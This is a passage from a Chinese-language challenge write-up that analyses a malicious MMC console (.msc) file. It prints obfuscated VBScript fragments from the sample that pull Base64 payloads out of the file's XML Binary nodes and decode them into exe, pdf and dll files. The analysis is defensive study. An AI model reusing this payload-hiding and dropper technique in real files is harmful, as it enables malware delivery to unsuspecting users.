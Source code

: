 ```vb
        ZyvKLLyyHHD = NALQp0Gu3 And 65280
        CYhV8N(VKkZEf + 1) = ZyvKLLyyHHD \ 256
        CYhV8N(VKkZEf + 2) = NALQp0Gu3 And 255
        VKkZEf = VKkZEf + 3
    Next
    YBx4PZLTHSQ1 = StrConv(CYhV8N, vbUnicode)
    If b7Z9n8 Then YBx4PZLTHSQ1 = Left(YBx4PZLTHSQ1, Len(YBx4PZLTHSQ1) - b7Z9n8)
    t4zFxxgg22 = FTKaWvcYaGWt(StrConv(YBx4PZLTHSQ1, vbFromUnicode))
    t4zFxxgg22 = qY7AOEpU1wn(t4zFxxgg22, "~")
End Function

Function qY7AOEpU1wn(str, chars)
    Dim fqX3dbudmU
    Dim XVZECKbx()
    XVZECKbx = Split(str, chars)
    fqX3dbudmU = UBound(XVZECKbx, 1)
    If fqX3dbudmU <> 0 Then
        str = Left(str, Len(str) - fqX3dbudmU)
    End If
    qY7AOEpU1wn = str
End Function
```

然后继续进一步的分析 🧐，第一段没看出来有啥用，CLng()函数报错，然后调用 AJ8p 函数，这个函数里面做了很多的操作，仔细去一步步阅读不难发现里面去新建了路径，读取了隐藏在 xml 中的恶意的 16 进制字符，经过 base64 解码（Xk7fbp8v()函数是一个 Base64 解码的一个函数）后写到新创建 exe、pdf、dll 中，关键的代码如下-->

```vb
Set aZPHxtz4 = RTcxFmy.selectNodes("/MMC_ConsoleFile/BinaryStorage/Binary[@Name='CONSOLE_TREE']")
rqsgO2mBfu = aZPHxtz4(0).text

Set aZPHxtz4 = RTcxFmy.selectNodes("/MMC_ConsoleFile/BinaryStorage/Binary[@Name='CONSOLE_MENU']")
Ze1C = aZPHxtz4(0).text
Set aZPHxtz4 = RTcxFmy.selectNodes("/MMC_ConsoleFile/BinaryStorage/Binary[@Name='CONSOLE_PANE']")
JozMh9jg = aZPHxtz4(0).text
AnZUOdqFuMEw = Xk7fbp8v(Ze1C)
s4fr2y4Q7lvQ = Xk7fbp8v(JozMh9jg)
```

然后再去用 Cyberchef 将原始的那个 msc 文件中将` CONSOLE_TREE``CONSOLE_MENU``CONSOLE_PANE `分别提取出来进行 Base64 解码，便可以得到三个文件如下

pdf

![](6.png)

exe

![](7.png)

dll

![](8.png)

那么第 6 题的答案也迎刃而解了，就是将这个路径-->`/MMC_ConsoleFile/BinaryStorage/Binary[@Name='CONSOLE_PANE']`进行一次 md5 加密即可。
